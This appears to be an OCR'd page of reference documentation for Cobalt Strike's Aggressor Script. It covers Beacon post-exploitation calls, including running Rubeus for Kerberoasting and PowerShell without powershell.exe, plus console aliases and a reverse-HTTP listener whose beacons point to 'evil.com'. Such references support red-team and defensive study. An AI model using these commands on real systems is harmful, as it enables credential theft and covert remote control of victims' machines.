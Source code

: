 | `&bexecute_assembly(...)`|`$bid, $assembly_path, $args`|Spawn a local .NET executable assembly as a Beacon post-exploitation job.|``bexecute_assembly($bid,script_resource("rubeus.exe"),"kerberoast");``|
|`&bpowerpick(...)`   | `$bid, "command"`                              | Executes a PowerShell command *without* powershell.exe.  Relies on Unmanaged PowerShell.                                        | `bpowerpick($bid, "Get-Process");`                                               |

### Aliases

Aliases create custom commands within the Beacon console.

```cna
alias myalias {
    # $0 is the full command (including arguments)
    # $1 is the Beacon ID
    # $2, $3, ... are the arguments
    binput($1, "Running myalias with args: $+ @_[1..-1]");  # Good OPSEC!
    bshell($1, "echo Alias called!  Args: $+ @_[1..-1]");
}

# Example usage in Beacon console:
# beacon> myalias arg1 "arg 2"
```

### Custom Commands
```cna
command customCommand{
 #Code to execute.
}
```

## Listeners

### Creating Listeners

Use `listener_create_ext` to create listeners.  This function takes a listener name, payload type, and a dictionary of options.

```cna
listener_create_ext("my_http", "windows/beacon_http/reverse_http",
    %(host => "192.168.1.100", port => 80, beacons => "evil.com"));
```

### Listing Listeners

```cna
@listeners = listeners();        # All listeners (across all team servers)
@local_listeners = listeners_local();  # Only listeners on the current team server
```
`listeners_stageless` to get listeners across all team servers this client is connected to.

### Managing Listeners
|Function|Arguments|Description|
|---|---|---|
|`listener_delete($name)`|`$name`|Stop and remove listener|
|`listener_restart($name)`|`$name`|Restart a listener.|
|`listener_describe($listener, $target?)`|`$listener, $target?`| Describe a listener.|
